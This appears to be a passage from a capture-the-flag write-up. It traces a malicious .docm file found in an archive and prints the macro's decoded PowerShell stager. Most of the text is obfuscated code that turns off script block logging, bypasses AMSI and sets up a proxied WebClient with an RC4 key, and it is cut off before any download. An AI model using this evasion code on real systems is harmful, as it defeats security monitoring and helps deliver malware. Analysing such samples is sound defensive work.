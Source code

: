 Actual message.

Query finds these two files

```
Buttercups_HOL404_assignment.zip
    /home/ubuntu/archive/9/b/b/3/d/9bb3d1b233ee039315fd36527e0b565e7d4b778f/Buttercups_HOL404_assignment.zip
19th Century Holiday Cheer Assignment.docm
    /home/ubuntu/archive/c/6/e/1/7/c6e175f5b8048c771b3a3fac5f3295d2032524af/19th Century Holiday Cheer Assignment.docm
```

The properties for the docm files is in `core.xml` but it's empty. Let's find the actual `core.xml` file from the list above.

```
core.xml    /home/ubuntu/archive/f/f/1/e/a/ff1ea6f13be3faabd0da728f514deb7fe3577cc4/core.xml
```

Inside that we have the thing.

`Kent you are so unfair. And we were going to make you the king of the Winter Carnival.`

The PowerShell base64 decoded

```powershell
IF ($PSVerSioNTaBLe.PSVERsIOn.MAJor  - gE 3)  {
    $GPF = [Ref].ASsEMBly.GETTyPE('System.Management.Automation.Utils')."GEtFiE`Ld"('cachedGroupPolicySettings', 'N' + 'onPublic,Static');
    IF ($GPF)  {
        $GPC = $GPF.GeTVAluE($nUlL);
        If ($GPC['ScriptB' + 'lockLogging'])  {
            $GPC['ScriptB' + 'lockLogging']['EnableScriptB' + 'lockLogging'] = 0;
            $GPC['ScriptB' + 'lockLogging']['EnableScriptBlockInvocationLogging'] = 0
        }

        $val = [COLlEcTioNs.GEneRiC.DICTIoNAry[StrING, SySTEm.ObjecT]]::NeW();
        $vAl.AdD('EnableScriptB' + 'lockLogging', 0);
        $vaL.ADd('EnableScriptBlockInvocationLogging', 0);
        $GPC['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB' + 'lockLogging'] = $VAl
    } ElSE {
        [SCrIPTBlOCK]."GEtFIe`lD"('signatures', 'N' + 'onPublic,Static').SETVALUe($NUll, (NEW - OBjEct CollEcTions.GEnerIC.HashSeT[sTrING]))
    }

    [REf].ASSEMBlY.GETTYPe('System.Management.Automation.AmsiUtils')|? {
        $_
    }

    |% {
        $_.GETFielD('amsiInitFailed', 'NonPublic,Static').SEtValUe($NUlL, $True)
    };
};
[SySteM.NeT.SERvicEPoInTMaNaGer]::EXPecT100CONtInUe = 0;
$wc = NEw-ObjECT SysTEM.NeT.WeBCLiENT;
$u = 'Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';
$wC.HEADErS.ADd('User-Agent', $u);
$Wc.ProXy = [SySTeM.Net.WeBREQuEST]::DEFaULTWebProXy;
$WC.PRoXy.CREDenTIAls = [SySTEm.NET.CRedeNTiAlCAcHe]::DeFaulTNeTwORkCREDenTiALS;
$Script:Proxy = $wc.Proxy;
$K = [SySTEM.Text.EncOdING]::ASCII.GeTBYteS('zd!Pmw3J/qnuWoHX~=g.{>p,GE]:|#MR');
$R = {
    $D, $K = $ARGs;
    $S = 0..255;
    0..255|% {
        $J = ($J + $S[$_] + $K[$_%$K.COUnt])%256;
```